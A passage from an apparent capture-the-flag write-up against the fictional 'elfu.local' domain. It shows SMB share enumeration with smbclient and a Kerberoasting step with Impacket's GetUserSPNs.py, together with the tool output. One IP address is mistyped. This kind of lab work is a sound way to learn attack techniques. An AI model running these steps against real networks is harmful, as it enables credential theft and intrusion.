 From this, we can pretty safely assume from this that the domain is "elfu.local". There are also some SMB shares on 10.128.3.30. Let's check those out.

## SMB Shares

 Let's see what those shares are:
```bash
smbclient -L \\\\10.128.3.30\\
```

output:
```
Sharename       Type      Comment
---------       ----      -------
netlogon        Disk      
sysvol          Disk      
elfu_svc_shr    Disk      elfu_svc_shr
research_dep    Disk      research_dep
IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
```

We can try to log into the shares with:

```bash
smbclient \\\\10.28.3.30\\<SHARE NAME>
```

None of the shares we have access to have anything interesting in them.

## Kerberoasting
Let's see if we can do any Kerberoasting. We'll use [Impacket](https://github.com/SecureAuthCorp/impacket)'s GetUserSPNs.py:

Copy/paste the file from [GitHub](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py) directly into a file called GetUserSPNs.py and then run it.

```bash
GetUserSPNs.py -outputfile spns.txt elfu.local/<USERNAME>:<PASSWORD>
```

Output:
```
ServicePrincipalName                 Name      MemberOf  PasswordLastSet             LastLogon                   Delegation 
-----------------------------------  --------  --------  --------------------------  --------------------------  ----------
ldap/elfu_svc/elfu                   elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 22:41:44.214743             
ldap/elfu_svc/elfu.local             elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 22:41:44.214743             
ldap/elfu_svc.elfu.local/elfu        elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 22:41:44.214743             
ldap/elfu_svc.elfu.local/elfu.local  elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 22:41:44.214743
```
